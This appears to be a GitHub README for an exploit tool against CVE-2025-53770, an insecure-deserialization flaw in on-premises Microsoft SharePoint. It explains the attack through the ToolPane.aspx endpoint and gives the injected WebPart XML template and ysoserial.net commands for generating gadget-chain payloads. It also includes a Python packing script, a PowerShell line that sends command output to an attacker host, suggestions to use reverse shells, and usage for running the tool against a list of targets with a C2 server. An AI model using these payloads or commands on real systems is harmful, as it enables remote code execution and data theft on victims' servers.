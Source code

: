 # SharePoint WebPart Injection Exploit Tool


| Field               | Value                                                                 |
|--------------------|-----------------------------------------------------------------------|
| **Component**       | Microsoft SharePoint (on-premises)                                    |
| **Endpoint**        | `/layouts/15/ToolPane.aspx`                                           |
| **Parameter**       | `MSOTlPn_DWP`                                                         |
| **Injected Control**| `<Scorecard:ExcelDataSet CompressedDataTable="...">`                 |
| **Vulnerability**   | Insecure deserialization (`BinaryFormatter`, `LosFormatter`, etc.)    |
| **CVE**             | [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770)     |

---

## How It Works

1. Authenticated users can send POST requests to `/_layouts/15/ToolPane.aspx?DisplayMode=Edit`.

2. The request includes the parameter `MSOTlPn_DWP`, containing an injected **WebPart XML**.

3. Inside the WebPart, the attacker places a `<Scorecard:ExcelDataSet>` component with the `CompressedDataTable` attribute holding a payload:
- Serialized .NET object
- Encoded in Base64
- Compressed using GZIP

4. SharePoint automatically **inflates** and **deserializes** the object using unsafe formatters.

5. If the object contains a valid **gadget chain** (e.g., `ObjectDataProvider`), **arbitrary code** is executed on the server.

## Requirements

- Python 3.x  
- Required Python modules:
```bash
pip install -r requirements.txt
```

* A Base64 GZIP-compressed .NET deserialization payload (see next section)

The payload must be:

* A `.NET DataSet` or similar gadget chain
* Serialized using `LosFormatter` or `BinaryFormatter`
* Base64-encoded
* GZIP-compressed
* Embedded inside this WebPart structure:

```xml
<asp:UpdateProgress ID="UpdateProgress1" runat="server" AssociatedUpdatePanelID="upTest">
  <ProgressTemplate>
    <div class="divWaiting">
      <Scorecard:ExcelDataSet CompressedDataTable="{PAYLOAD}" DataTable-CaseSensitive="false" runat="server" />
    </div>
  </ProgressTemplate>
</asp:UpdateProgress>
```

---

## Generating Payloads (Using `ysoserial.net`)

### Generate the base64 serialized object

```bash
cd ysoserial.net

# compile from source or use Dockerfile

ysoserial.exe -f LosFormatter -g ObjectDataProvider -o base64 -c "calc.exe" > payload.b64
```

> You can replace `calc.exe` with any command — for example, a reverse shell.

---

### Compress with GZIP

```python
import gzip, base64

with open("payload.b64", "rb") as f:
    decoded = base64.b64decode(f.read())
    compressed = gzip.compress(decoded)
    print(base64.b64encode(compressed).decode())
```

> Save the final output into `payload.txt` — this is what you give to the exploit script.

---

## Compatible Gadget Chains

You can use any gadget chain supported by your serialization tool. Common examples include:

* `System.Data.DataSet`
* `System.Data.Services.Internal.ExpandedWrapper`
* `System.Web.UI.LosFormatter`
* `System.Windows.Data.ObjectDataProvider`

> For more, check [ysoserial.net](https://github.com/pwntester/ysoserial.net) 

---

## Output / Echo

This vulnerability **does not return command output** like `ipconfig` in the HTTP response. If you want output:

* Use reverse shell payloads
* Or redirect output via `Invoke-WebRequest`:

```powershell
powershell -c "ipconfig | Invoke-WebRequest -Uri http://your-ip:8000/?d=$(Get-Content -Raw)"
```


## Example Usage

```bash
python3 exploit.py -t targets.txt --file payload.txt  --c2 http://YOUR_C2_SERVER:8000  --proxy http://127.0.0.1:8080
```

```bash
python3 exploit.py -t targets.txt --file payload.txt --proxy http://127.0.0.1:8080
```

### Arguments:

| Argument           | Description                                           |
| ------------------ | ----------------------------------------------------- |
| `-t` / `--targets` | File containing SharePoint target URLs (one per line) |
| `--file`           | File containing the base64 GZIP-compressed payload    |
| `--proxy`          | (Optional) Burp/ZAP proxy for interception/debugging  |